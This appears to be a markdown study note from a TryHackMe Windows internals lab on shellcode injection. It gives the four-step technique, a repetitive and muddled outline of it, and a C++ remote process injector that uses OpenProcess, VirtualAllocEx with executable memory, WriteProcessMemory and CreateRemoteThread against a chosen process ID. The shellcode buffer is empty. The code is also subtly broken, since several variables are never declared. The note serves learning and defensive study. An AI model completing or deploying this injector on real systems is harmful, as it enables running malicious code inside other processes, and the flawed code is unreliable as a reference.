 # Shellcode Injection

#### Shellcode Injection Steps

Windows API calls interact with process memory steps that diverge to `Malicious Memory Region`:
1.  Open a target process with all access rights.
2.  Allocate target process memory for the shellcode.
3.  Write shellcode to allocated memory in the target process.
4.  Execute the shellcode using a remote thread.

1. Malicious Process
	1. Open Process - Open a target process with all access rights.
		1. Process
			1. DLLs
			2. Registers
			3. Process Heap
			4. Thread Stack
				1. CreateRemoteThread
				2. Malicious Memory Region -> Execute the shellcode using a remote thread.
			5. Process Memory
			6. Malicious Memory Region -> Execute the shellcode using a remote thread.
	2. VirtualAlloc - Allocate target process memory for the shellcode.
		1. WriteProcessMemory -> Write shellcode to allocated memory in the target process.
			1. Malicious Memory Region -> Execute the shellcode using a remote thread.

Basic Process Injector:
```cpp
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "";

int main(int argc, char *argv[]) {
// Open a target process with all access rights
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);

// Allocate target process memory for the shellcode
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);

// Write shellcode to allocated memory in the target process
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);

// Execute the shellcode using a remote thread
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
}
```

## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)